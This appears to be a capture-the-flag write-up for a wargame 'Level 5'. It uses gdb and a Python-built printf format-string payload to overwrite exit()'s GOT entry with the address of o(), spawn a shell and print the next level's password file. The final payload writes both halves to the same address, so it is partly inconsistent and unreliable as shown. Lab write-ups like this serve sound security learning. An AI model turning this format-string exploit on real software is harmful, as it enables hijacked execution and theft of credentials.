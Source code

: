 # Level 5
*pass: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

```
$ scp -P 4242 level5@192.168.56.108:level5 .
```

## Printf exploit

objective : use printf to execute o().
way : change the return address of exit()

```
$ gdb level5
(gdb) info funct o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

```
(gdb) disas n
...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

`o()` address : 0x080484a4\
`exit()` : 0x08049838


convert o() to decimal : 134513828 (too long)\
separate into 2 int :
- 804 => 2052
- 84a4 => 33956

```
$ python -c 'print "\x38\x98\x04\x08 %p %p %p %p"' | ./level5
```

address at parameters 4th.

```
$ python -c 'print "\x38\x98\x04\x08" + "%2048x" + "%4$hn" + "%31904x"+ "%4$hn"' > /tmp/level5
$ cat /tmp/level5 - | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
